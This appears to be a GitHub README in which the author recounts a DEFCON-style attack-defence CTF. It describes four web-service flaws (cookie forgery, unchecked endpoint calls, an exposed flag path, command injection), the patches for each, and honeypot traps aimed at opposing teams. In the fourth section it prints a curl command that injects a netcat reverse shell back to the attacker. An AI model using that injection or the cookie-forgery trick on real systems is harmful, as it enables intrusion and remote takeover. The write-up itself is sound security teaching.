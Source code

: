 # Attack-Patch-Prevail-48h-Defcon-Style-CTF-Showdown

### Author

- **Panagiotis Vardalas**
### *From Pawn to Immunity*

A full-cycle exploitation and hardening of a vulnerable web service during a 48-hour DEFCON-style Capture The Flag. This repository documents the four vulnerabilities I discovered and exploited live against other teams, alongside the patches and countermeasures I deployed to transform the same service into a fortified, trap-laden stronghold.

---
# Try the game your self
## Find vulnerabillities in the vulnerable version, or try to pawn my patched version (if you can 😊)
* [Vulnerable Version](https://vuln.vardalas.com)
* [Patched Version](https://patched.vardalas.com)
---

## 🛠️ Overview

In a high-stakes, time-constrained CTF environment, I identified and weaponized four critical vulnerabilities in a target web service. Each exploit was then fully patched and reinforced to not only block future attacks but actively disrupt and mislead adversaries attempting to exploit the same vectors. The result: a hardened service that became more dangerous to attack than to ignore.

---

## 🔍 Discovered Vulnerabilities & Patch Strategies

### 1. Privilege Escalation via Cookie Forgery
- **Exploit:**  
  Manually setting a cookie with `admin=1` granted full administrative access without validation.

- **Patch:**  
  Implemented cookie signing using HMAC-based validation. Every cookie is verified server-side using a secret key to prevent tampering.

---

### 2. Restricted Action Access via Direct Endpoint Call
- **Exploit:**  
  Direct requests to `/action.php` allowed any user to add restricted items (including the flag) to their cart.

- **Patch:**  
  Enforced backend role-based access control. Admin checks were implemented at the logic level, not just in the frontend or routing layer.

---

### 3. Direct Flag Exposure via Static Path
- **Exploit:**  
  Accessing `/key` revealed the flag directly due to exposed static file routing.

- **Patch:**  
  The application was restructured around a centralized router (`index.php`) that handles all access through controlled dispatch, preventing direct file exposure.

---

### 4. Remote Code Execution via Unsafe Command Execution
- **Exploit:**  
  A function used input to build shell commands like:  
  ```bash
  curl -X POST http://$ip:8005/actions.php -d "system=nc+$my-ip+4444+-e+/bin/bash"
  ```
  This enabled arbitrary command execution and allowed backdoors for submitting flags even if the service appeared down.

- **Patch:**  
  Introduced a strict whitelist of allowable commands and validated inputs thoroughly. The handler was refactored to eliminate dynamic shell calls where not explicitly needed.

---

## 🧠 Advanced Defensive Engineering & Active Traps

Beyond patching, I actively weaponized the service to turn attack attempts into disadvantages for my opponents.

---

## 🕳️ Honeypot Traps

- **Trap 1 – `/key`:**  
  Instead of returning a 403/404, this endpoint returned a **39KB payload** of pseudo-flag data after a **deliberate delay**, poisoning automated tools and overloading network analysis with useless but believable data.

- **Trap 2 – Patched `/action.php`:**  
  Unauthorized calls triggered **high-latency responses** and **large data dumps** designed to resemble valid flags, stalling and confusing enemy scripts.

---

## 📉 Impact on Opponents

- Enemy **PCAP files** grew to **multiple gigabytes**, bloated with meaningless data.
- Several teams **submitted fake flags** generated by the trap payloads.
- **Automated daemons crashed** or stalled due to high latency and bandwidth/resource exhaustion.
- Attacking my service **became a liability**, shifting the risk/cost balance in my favor.

---

## ⚔️ Conclusion

This repository showcases the offensive and defensive techniques used during a **48-hour DEFCON-style CTF** to fully compromise, secure, and militarize a web service.  
In a real-time, adversarial environment, success comes not only from breaching systems — but from **securing and turning them into traps** that actively punish attackers.
